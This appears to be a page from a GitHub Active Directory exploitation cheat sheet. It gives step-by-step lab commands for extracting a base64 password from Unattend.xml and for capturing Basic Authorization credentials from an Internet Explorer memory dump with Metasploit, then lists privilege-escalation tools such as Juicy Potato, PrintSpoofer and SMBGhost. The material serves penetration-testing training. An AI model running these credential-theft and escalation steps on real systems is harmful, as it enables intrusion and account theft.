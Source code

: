 Windows VM

1. Open command prompt and type: notepad C:\Windows\Panther\Unattend.xml
2. Scroll down to the "Password" property and copy the base64 string that is confined between the "Value" tags underneath it.

Kali VM

1. In a terminal, type: echo \[copied base64] | base64 -d
2. Notice the cleartext password

***

### Memory

#### Exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use auxiliary/server/capture/http\_basic
3. In Metasploit (msf > prompt) type: set uripath x
4. In Metasploit (msf > prompt) type: run

Windows VM

1. Open Internet Explorer and browse to: http://\[Kali VM IP Address]/x
2. Open command prompt and type: taskmgr
3. In Windows Task Manager, right-click on the “iexplore.exe” in the "Image Name" columnand select “Create Dump File” from the popup menu.
4. Copy the generated file, iexplore.DMP, to the Kali VM.

Kali VM

1. Place 'iexplore.DMP' on the desktop.
2. Open command prompt and type: strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"
3. Select the Copy the Base64 encoded string.
4. In command prompt type: echo -ne \[Base64 String] | base64 -d
5. Notice the credentials in the output.

***

### Stuff

* PowerUp Misconfiguration Abuse
* Powerless (bat version OSCP prepair)
* BeRoot General Priv Esc Enumeration Tool
* Privesc General Priv Esc Enumeration Tool
* FullPowers Restore A Service Account's Privileges
* Juicy Potato Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation, warning Works only until Windows Server 2016 and Windows 10 until patch 1803
* Lovely Potato Automated Juicy Potato, warning Works only until Windows Server 2016 and Windows 10 until patch 1803
* PrintSpoofer Exploit the PrinterBug for System Impersonation
* Pray Works for Windows Server 2019 and Windows 10
* RoguePotato Upgraded Juicy Potato
* Pray Works for Windows Server 2019 and Windows 10
* Abusing Token Privileges
* SMBGhost CVE-2020-0796

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)
